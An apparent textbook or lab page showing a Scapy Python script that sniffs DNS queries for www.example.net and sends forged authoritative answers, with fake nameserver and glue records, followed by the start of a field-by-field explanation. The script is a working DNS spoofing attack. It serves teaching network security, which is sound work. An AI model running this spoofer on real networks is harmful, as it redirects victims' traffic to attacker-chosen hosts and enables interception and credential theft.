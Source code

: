 \begin{lstlisting}
#!/usr/bin/python
from scapy.all import *
 
def spoof_dns(pkt):
  if (DNS in pkt and 'www.example.net' in pkt[DNS].qd.qname):

    # Swap the source and destination IP address
    IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)

    # Swap the source and destination port number 
    UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)

    # The Answer Section
    Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A',               
                 ttl=259200, rdata='10.0.2.5')

    # The Authority Section
    NSsec1 = DNSRR(rrname='example.net', type='NS',
                   ttl=259200, rdata='ns1.example.net')
    NSsec2 = DNSRR(rrname='example.net', type='NS',
                   ttl=259200, rdata='ns2.example.net')

    # The Additional Section
    Addsec1 = DNSRR(rrname='ns1.example.net', type='A', 
                    ttl=259200, rdata='1.2.3.4')
    Addsec2 = DNSRR(rrname='ns2.example.net', type='A',
                    ttl=259200, rdata='5.6.7.8')

    # Construct the DNS packet
    DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1,     (*@\ding{192}@*)
                 qdcount=1, ancount=1, nscount=2, arcount=2,
                 an=Anssec, ns=NSsec1/NSsec2, ar=Addsec1/Addsec2)

    # Construct the entire IP packet and send it out
    spoofpkt = IPpkt/UDPpkt/DNSpkt
    send(spoofpkt)

# Sniff UDP query packets and invoke spoof_dns().                		
pkt = sniff(filter='udp and dst port 53', prn=spoof_dns)
\end{lstlisting}
 

Line~ constructs the DNS payload, including DNS header and data. Each field 
of the DNS payload is explained in the following:

